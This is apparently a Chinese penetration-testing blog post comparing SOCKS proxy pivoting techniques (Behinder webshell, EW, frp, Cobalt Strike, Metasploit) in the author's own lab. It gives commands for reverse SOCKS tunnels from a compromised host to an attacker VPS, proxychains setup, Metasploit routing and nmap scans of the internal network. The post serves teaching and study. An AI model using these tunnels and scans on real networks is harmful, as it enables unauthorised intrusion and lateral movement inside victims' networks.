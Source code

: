 ```yaml
---
title: 几种socks代理测试
date: 2020-05-19 21:02:50
categories: 内网渗透
tags: 代理
---
```


#### socks代理在内网渗透中的作用

当我们拿下了一个目标A，目标的网络环境可能存在两情况

1. 目标A处于公网，但有其它设备B与A相连接，我们可以访问A，无法访问B,但A可以访问B。
2. 目标A处于内网，通过NAT或端口映射将80或者443端口转发到公网上，同样A在内网与其他机器相连并可以相互访问

<!--more-->

此时，我们便可通过socks代理将我们的流量通过被控制的A设备代理到内网来访问内网的资源，如3389，或内网的web服务，省去了端口转发的麻烦。socks代理目前有socks 4 和socks 5两种类型，socks 4只支持TCP协议，而socks 5支持TCP/UDP协议，还支持各种身份验证机制等协议。但貌似不支持ICMP协议，所以使用代理加Nmap的时候就得注意了。

##### 环境

攻击机与靶机在两个完全不同的内网环境，为了模拟服务器处在内网的环境，将靶机的80端口转发到了公网的80端口上，通过配置的域名可以顺利访问到内网靶机的80端口。

![](http://cdn.laohuan.art/Snipaste_2020-05-13_19-45-49.png)

#### 冰蝎

1. 使用冰蝎连接上一句话木马

   ![](http://cdn.laohuan.art/Snipaste_2020-05-13_19-48-52.png)

2. 打开冰蝎的socks代理，监听10086端口

![](http://cdn.laohuan.art/Snipaste_2020-05-13_19-49-14.png)

3. 配置proxifier,设置socks5为127.0.0.1,监听端口和冰蝎保持一致为10086，代理规则里将浏览器加入

   ![](http://cdn.laohuan.art/Snipaste_2020-05-13_19-53-41.png)

此时便可通过火狐浏览器访问内网的web服务，但作者实际测试中并不能顺利访问到内网的web服务，经作对比发现jsp环境可用socks代理访问内网环境，而php环境则不能。

#### EW

使用EW需要有一个公网IP

1. 首先在公网vps上执行如下命令

   `sudo ./ew_for_linux64 -s rcsocks -l 3950 -e 3951`

   ![](http://cdn.laohuan.art/Snipaste_2020-05-13_20-13-39.png)

此命令将3950端口收到的请求转发到3951端口

2. 在肉机上执行

   `./ew_for_linux64 -s rssocks -d x.x.x.x(公网vps) -e 3951`

   ![](http://cdn.laohuan.art/2020-05-13_20-21.png)

3. 编辑proxychains文件

   `nano /etc/proxychains.conf`

   在最后面加上我们的socks代理

   `socks5 x.x.x.x(公网vps) 3950`

4. 访问内网

   `proxychains curl 192.168.88.1`

   192.168.88.1为内网的路由器管理地址

   ![](http://cdn.laohuan.art/2020-05-18_21-31.png)

#### Frp

1. 在公网vps编辑服务端frps.ini文件

   ![](http://cdn.laohuan.art/Snipaste_2020-05-20_21-29-43.png)

   * bind_port 为监听端口
   * token可设可不设，若设置则服务端的token和客户端的token必须保持一致

2. 编辑客户端(靶机)frpc.ini

   ![](http://cdn.laohuan.art/Snipaste_2020-05-16_15-18-00.png)

* server_addr为公网vps的ip
* server_port: 公网vps的监听端口
* remote_port :待会设置代理的时候就需要设置成这个端口

3. 启动frp

   服务端：

   `sudo ./frps -c frps.ini`

   客户端（靶机）:

   `frpc.exe -c frpc.ini`

4. 设置代理

   攻击机配置proxychains.conf文件，socks代理的ip为公网vps的ip，端口为remoet_port所设置的端口

5. 使用代理扫描内网

   `proxychains3 nmap -sT -Pn -n -p80,22,23,443,445` 192.168.88.1

    ![](http://cdn.laohuan.art/2020-05-16_15-16.png)

此处使用nmap要注意-sT 和-Pn参数，不然无法扫描，其次也建议扫描常用端口，不推荐全端口扫描，否则速度过慢。

#### cobaltstrike

1. 通过 **[beacon]** → **Pivoting** → **SOCKS Server** 来在你的团队服务器上设置一个 SOCKS4a 代理服务器。或者使用 socks 8080 命令来在端口 8080 上设置一个 SOCKS4a 代理服务器（或者任何其他你想选择的端口）

![](http://cdn.laohuan.art/2020-05-16_16-44.png)

2. 配置proxychains.conf文件即可通过socks代理访问内网，同样可以复制以上配置到msf中，利用msf畅游内网。

   ```
   setg Proxies socks4:team server IP:proxy port
   setg ReverseAllowProxy true
   ```

   使用proxychains打开浏览器访问内网

   `proxychains firefox`

   ![](http://cdn.laohuan.art/Snipaste_2020-05-13_20-24-16.png)

   

   #### metasploit

   当我们得到一个meterpreter时，可通过添加路由，再添加socks代理，将流量通过socks代理进目标内网，笔者之前直接添加socks代理并无法访问内网，也困扰了一段时间，之后才发现添加路由后才能正常使用。当然要说一点，msf添加路由之后就能扫描内网了。

   1. 添加路由

      查看目标网段

      `run get local subnets`

      添加路由

      `run autoroute -s 192.168.88.0/24`

      查看添加的路由

      `run autoroute -p`

      ![](http://cdn.laohuan.art/Snipaste_2020-05-18_21-14-07.png)

   2. 启动socks4

      `use auxiliary/server/socks4a`

      `set srvport 3950`

      ![](http://cdn.laohuan.art/Snipaste_2020-05-18_21-17-57.png)

   3. 配置proxychains.conf

      `socks4 127.0.0.1 3950`

      

#### 总结

socks代理在内网渗透中有很大的作用，由于图片放在第三方云，整理较麻烦，所以我放了较少的图片，而代码部分会尽量打出来。这也算是我对socks代理使用的一次总结，另外，冰蝎socks代理在php环境无法测试成功的原因欢迎小伙伴提出交流。